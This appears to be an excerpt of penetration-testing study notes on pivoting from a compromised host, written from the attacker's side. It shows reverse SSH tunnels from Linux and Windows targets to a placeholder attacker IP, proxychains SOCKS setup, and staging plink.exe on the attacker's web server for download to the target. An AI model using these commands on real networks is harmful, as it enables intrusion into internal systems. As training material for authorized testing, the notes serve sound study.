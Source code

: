 From perimeter target (MID01)

```
target@hacked:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
target@hacked:~$ ssh -N -R 127.0.0.1:<SSHPORT> <USER>@<ATTACKER_IP>

/** Notes
 * -N used to prevent shell from being opened
 * -R for remote port forwarding according to input arg
 * With example above: 0.0.0.0 = MID01 (all interfaces), ATTACKER_IP = ATTACKER, USER = link
 * <SSHPORT> can be any free port on loopback interface
 */
```

Then, we need to set up a SOCKS proxy on attacker machine so we can send data over the tunnel to dynamically specified destinations as per the SOCKS protocol. Do the following:
- `nano /etc/proxychains4.conf`
- Append `socks5 127.0.0.1 <SSHPORT>` to *[ProxyList]*
    - Note: may need to use socks4 instead depending on what protocol is supported. SOCKS5 better though (ideally) because has more support functionality.

```
link@kali:~$ proxychains <COMMAND_TO_FINAL_TARGET>

// e.g. nmap, smbclient, curl etc.
```


## Port Redirection for Windows 

### ssh.exe

Windows SSH tools can be located at `%SYSTEMDRIVE%\Windows\System32\OpenSSH` by default. Or try `where ssh`.

Check version: `ssh.exe -V` --> should be > 7.6 for remote dynamic port forwarding.

Same command as on linux, e.g. for remore dynamic port forwarding:

```
C:\Users\target> ssh -N -R <SSHPORT> link@<ATTACKER_IP>
```

### Plink

Plink is the command-line only counterpart to PuTTY and has a lot of functionality that OpenSSH client offers.

**Note:** Plink does not offer remote dynamic port forwarding.

To do, host a server with `plink.exe` on attacker machine and download to Windows:

```
link@kali:~$ find / -name plink.exe 2>/dev/null
link@kali:~$ cp /path/to/plink.exe /var/www/html
```

